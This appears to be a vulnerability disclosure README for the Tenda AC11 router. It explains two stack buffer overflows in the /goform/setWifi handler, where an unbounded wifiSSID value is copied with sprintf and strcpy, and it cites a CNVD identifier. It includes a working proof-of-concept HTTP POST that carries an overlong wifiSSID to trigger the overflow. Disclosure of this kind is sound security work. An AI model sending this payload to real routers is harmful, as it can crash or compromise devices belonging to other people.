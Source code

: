 # Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setWifi` page which influence the lastest version routerOS(RTOS, This is system different from linux system)[AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
In the page `/gofrom/setWifi` have two stack buffer overflow vulnerability.

1. It isn't limit our input when we input `wifiSSID` in `v11`,and `v11` convert value to `v12`.
2. Then `wifiSSID` will copy to a stack value `v52` by using `sprintf_1((int)v52, "%s_5G", v12);` .%s couldn't limit copy length ,so wo can make stack buffer overflow in `v52`
3. Meanwhile `v12` could copy to `v52` by using `strcpy` .It also could lead to stack buffer overflow
![](./1.jpg)

## poc 

```
POST /goform/setWifi HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```
## Time line
report cnvd assgin CNVD-2021-30109
